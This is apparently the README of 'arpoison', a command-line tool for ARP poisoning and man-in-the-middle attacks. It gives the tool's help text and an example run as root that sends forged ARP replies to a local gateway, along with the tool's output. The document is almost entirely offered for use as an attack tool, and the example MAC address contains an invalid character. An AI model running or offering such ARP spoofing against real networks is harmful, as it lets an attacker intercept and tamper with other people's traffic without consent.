 # arpoison
ARP-poisoning tool

Can conduct mitm attacks spoofing an IP address, sending custom ARP-replies

USAGE:
<pre><font color="#EF2929"><b>root@B4LT0</b></font>:<font color="#729FCF"><b>~</b></font># ./arpoison --help
./arpoison - Send arbitrary ARP replies
Usage: ./arpoison [-i interface] -s ip_address -t dest_ip
    -i    interface to send on
    -s    IP address we are claiming to be
    -t    IP address of recipient
    -m    Ethernet MAC address of recipient
</pre> 

EXAMPLE:
<pre><font color="#EF2929"><b>root@B4LT0</b></font>:<font color="#729FCF"><b>~</b></font># ./arpoison -i wlan0 -s 192.168.1.15 -t 192.168.1.1 -m S8:7C:18:5B:9D:62
[i] Using interface wlan0
[+] spoof IP:	192.168.1.15 (192.168.1.15)
[+] target IP:	192.168.1.1 (_gateway)
[+] target MAC:	S8:7C:18:5B:9D:62
[+] my MAC:	A4:35:B0:84:0A:87
[i] Building ARP packet...done
[i] Enveloping Ethernet frame...done
[+] Sending stage 0
[+] Sending stage 1
[+] Sending stage 2
[+] Sending stage 3
[+] Sending stage 4
[+] Sending stage 5
</pre>
